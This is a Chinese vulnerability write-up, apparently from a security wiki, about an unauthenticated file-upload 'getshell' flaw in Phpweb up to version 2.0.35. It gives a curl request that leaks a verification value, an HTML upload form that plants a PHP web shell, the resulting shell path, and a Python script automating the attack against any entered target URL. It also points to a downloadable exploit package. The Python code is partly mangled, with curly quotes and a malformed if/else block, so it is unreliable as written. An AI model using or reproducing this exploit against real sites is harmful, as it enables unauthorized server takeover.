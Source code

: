 ```yaml
---
title: Phpweb 前台getshell
id: zhfly3089
---
```


# Phpweb 前台getshell

## 一、漏洞简介

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php /base/appborder.php

## 二、漏洞影响

Phpweb<=2.0.35

## 三、复现过程

### 1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!

```
curl "http://website/base/post.php" -H "act=appcode" 
```

![image](../img/1ba358c0c303d0b13bf1983dbc606362.png)

```
ac34c64cdb405eff881efc5476a64761 ##这个就是初始值 
```

### 2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + “a”)

得到加密后的MD5值!

```
e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)! 
```

3.Getsehll exp:

```
<html>
<body>
<form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="text" name="t" value="a" />
<input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
<input type="text" name="act" value="upload" />
<input type="text" name="r_size" value="14" />
<br />
<input type="submit" name="submit" value="getshell" />
</form>
</body>
</html> 
```

![image](../img/8d43c23314a44b186c5dda624aa0ecc0.png)

然后…Getshell!

![image](../img/bfce9b78d436f78a51738455fcaca002.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是

http://www.0-sec.org/effect/source/bg/shell名称.php

![image](../img/c266706989d38f71f2a1cace09867132.png)

### 工具编写

Python exp[Python3]:

```
# -*- coding: UTF-8 -*- #
import os
import requests
import hashlib

bdlj = os.getcwd()

headers = open(bdlj+"\headers.txt",‘r’)

headerss = headers.read()

print(’\b’)

ur = input(“请输入目标网址:”)

requrl =  ur + ‘/base/post.php’

reqdata = {“act”:“appcode”}

r = requests.post(requrl,data=reqdata)

cz=r.text[2:34]

print (‘初值:’ + cz)

cz=r.text[2:34]+“a”

m = hashlib.md5()

b = cz.encode(encoding=‘utf-8’)

m.update(b)

zz = m.hexdigest()

print (‘终值:’ + zz)

infile = open(bdlj + “\datas.txt”, “r”,encoding=‘utf-8’)

outfile = open(bdlj + “\datah.txt”, “w”,encoding=‘utf-8’)

for line in infile:

outfile.write(line.replace(‘156as1f56safasfasfa’, zz))

infile.close()

outfile.close()

datas = open(bdlj+"\datah.txt",‘r’)

datass = datas.read()

gs = requests.post(ur + ‘/base/appfile.php’,data=datass,headers={‘Content-Type’:headerss})

gs.encoding = ‘utf-8’

print (gs.text) `if {gs.text == “OK”}:

print (“Getshell成功! Shell:” + ur + “/effect/source/bg/mstir.php”)

else:

print (“Getsehll失败!”)` 
```

整包下载地址:https://github.com/ianxtianxt/Phpweb-Getshell-py

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![image](../img/726d37656ac5cc44ac6813d93aa1624a.png)

## 参考链接

> https://m4tir.github.io/Phpweb-Reception-Getshell